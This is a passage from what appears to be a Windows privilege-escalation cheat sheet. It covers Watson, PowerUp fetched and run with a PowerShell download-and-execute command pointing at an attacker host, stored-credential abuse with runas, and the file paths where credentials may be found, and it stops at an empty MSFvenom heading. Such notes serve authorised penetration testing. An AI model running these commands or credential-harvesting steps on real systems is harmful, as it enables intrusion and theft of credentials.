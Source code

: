 #### Watson
Identify .NET vulnerabilities:
1. Check .NET version:
   ```bash
   dir %windir%\Microsoft.NET\Framework /AD
   ```
2. For pre-Windows 10 systems, use Watson v1: `https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437`
3. Build and execute the exploit in Visual Studio.

#### PowerUp
Automate privilege escalation checks:
1. Append `Invoke-AllChecks` to `PowerUp.ps1`.
2. Execute:
   ```bash
   echo IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:<port>/PowerUp.ps1') | powershell -noprofile -
   ```

#### Stored Credentials
Check for stored credentials:
```bash
cmdkey /list
```
- If credentials exist, attempt `runas`:
  ```bash
  runas /savecred /user:<Domain>\<user> C:\<path>\<exefile>
  ```
- Search for plaintext or base64-encoded credentials in:
  - `C:\unattend.xml`
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Unattend\Unattend.xml`
  - `C:\Windows\system32\sysprep.inf`
  - `C:\Windows\system32\sysprep\sysprep.xml`
  - IIS `web.config`:
    - `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
    - `C:\inetpub\wwwroot\web.config`
  - Group Policy Preferences:
    - `C:\ProgramData\Microsoft\Group Policy\History\*\Machine\Preferences\Groups\Groups.xml`
    - `\\*\SYSVOL\*\Policies\*\MACHINE\Preferences\Groups\Groups.xml`
  - Other GPP files:
    - `Services\Services.xml`
    - `ScheduledTasks\ScheduledTasks.xml`
    - `Printers\Printers.xml`
    - `Drives\Drives.xml`
    - `DataSources\DataSources.xml`
  - McAfee SiteList:
    - `%AllUsersProfile%\Application Data\McAfee\Common Framework\SiteList.xml`

---

## Payload Generation with MSFvenom

